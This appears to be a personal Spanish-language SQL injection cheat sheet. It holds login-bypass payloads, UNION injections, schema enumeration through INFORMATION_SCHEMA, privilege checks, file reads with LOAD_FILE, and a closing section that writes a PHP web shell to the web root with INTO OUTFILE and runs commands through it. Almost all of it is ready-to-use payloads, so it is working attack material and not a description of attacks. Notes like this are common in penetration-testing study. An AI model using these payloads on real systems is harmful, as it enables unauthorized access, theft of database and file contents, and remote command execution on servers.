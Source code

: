 
## Básico

-Consulta inicial
```
SELECT * FROM logins WHERE username=''' AND password='cualquiera';

```
-SQLi
```
SELECT * FROM logins WHERE username='admin' OR '1'='1' AND password='cualquiera';
```
-Si no sabes el usuario
```
SELECT * FROM logins WHERE username='loquesea' OR '1'='1' AND password='algo' OR '1'='1';
```
te loggea como el primer usuario de la tabla(usualmente admin)

## Comentarios

-Bypass con comentario
```
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'algo';
```
IMPORTANTE: el comentario -- tiene que tener un espacio después, te puedes asegurar de ello usando -- -

## UNION

Te hace un mezcladillo con las dos tablas que le des, interesante cuando quieres leer info de otras tablas

-REQUISITOS: la tabla inicial con la tabla aderida con el union tienen que tener el mismo numero de columnas, si no dará error

-unión de tablas ports y ships
```
SELECT * FROM ports UNION SELECT * FROM ships;
```

-Si no sabes que tipo de dato almacena las columnas es mejor usas NULL pues se adapta a todas, y para saber cuantas columnas hay es bueno hacer union e ir probando un numero hasta que deje de dar error
```
UNION SELECT username, NULL, NULL, NULL FROM passwords-- - 
```
## DATABASE ENUMERATION

para saber en que base de datos estamos usar : database()
### Fingerprinting

<img width="846" height="273" alt="image" src="https://github.com/user-attachments/assets/50656f30-9edc-4d26-96c8-6a87ccf77806" />



### INFORMATION_SCHEMA

`INFORMATION_SCHEMA` es una **base de datos especial** que contiene metadatos (nombres de tablas, columnas, etc.) de **todas las bases de datos** del servidor.

Pero como está en otra base de datos, para acceder a sus tablas usamos el operador **`.`** (punto).  
Ejemplo:
```
SELECT * FROM my_database.users;
```

### SCHEMATA

Contiene todas las bases de datos. Para verlas:
```
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

### TABLES

La tabla `INFORMATION_SCHEMA.TABLES` contiene **una fila por cada tabla** que existe en **todas las bases de datos** del servidor.

```
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'clientes_db';
```


### COLUMNS

La tabla `INFORMATION_SCHEMA.COLUMNS` contiene información sobre **todas las columnas** de todas las tablas en todas las bases de datos.

```
SELECT COLUMN_NAME
FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'usuarios' AND TABLE_SCHEMA = 'clientes_db';
```

## Lectura de archivos

### Privilegios necesarios

En MySQL y MaríaDB necesitas de los privilegios 'FILE', para comprobarlo:
```
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

### que usuario soy ? 

```
cn' UNION SELECT 1, USER(), 3, 4-- -
```

### Leer archivo

```
SELECT LOAD_FILE('/ruta/al/archivo');
```

## Escritura en archivos (RCE) 

(epico para web shell )

### Permisos necesarios

-FILE:
```
SELECT privilege_type FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"
```
-secure_file_priv
```
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
```

- **Si devuelve NULL** → no puedes leer ni escribir archivos.
- **Si devuelve vacío** (`""`) → puedes leer/escribir en todo el sistema.
- **Si devuelve una ruta** (ej. `/var/lib/mysql-files`) → solo puedes escribir ahí.

### Web shell

-Payload
```
<?php system($_REQUEST[0]); ?>
```
-SQLi
```
cn' UNION SELECT "", '<?php system($_REQUEST[0]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
```
-Luego puedes hacer:
```
http://target/shell.php?0=id
```
